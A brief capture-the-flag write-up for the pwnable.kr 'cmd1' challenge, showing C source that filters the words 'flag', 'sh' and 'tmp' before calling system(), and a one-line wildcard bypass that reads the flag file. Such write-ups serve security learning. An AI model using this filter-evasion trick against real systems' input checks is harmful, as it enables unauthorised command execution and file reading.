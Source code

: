 # pwnable.kr -- Toddler's Bottle -- cmd1

## 1. Challenge

```
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)
```

## 2. Solution

Connect via SSH and see source code.

```c
// cmd.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "sh")!=0;
    r += strstr(cmd, "tmp")!=0;
    return r;
}
int main(int argc, char* argv[], char** envp){
    putenv("PATH=/fuckyouverymuch");
    if(filter(argv[1])) return 0;
    system( argv[1] );
    return 0;
}
```

`"flag"`, `"sh"` and `"tmp"` are filtered. But we can use wildcard.

```bash
cmd1@prowl:~$ ./cmd1 "(/bin/cat fla*)"
mommy now I get what PATH environment is for :)
```
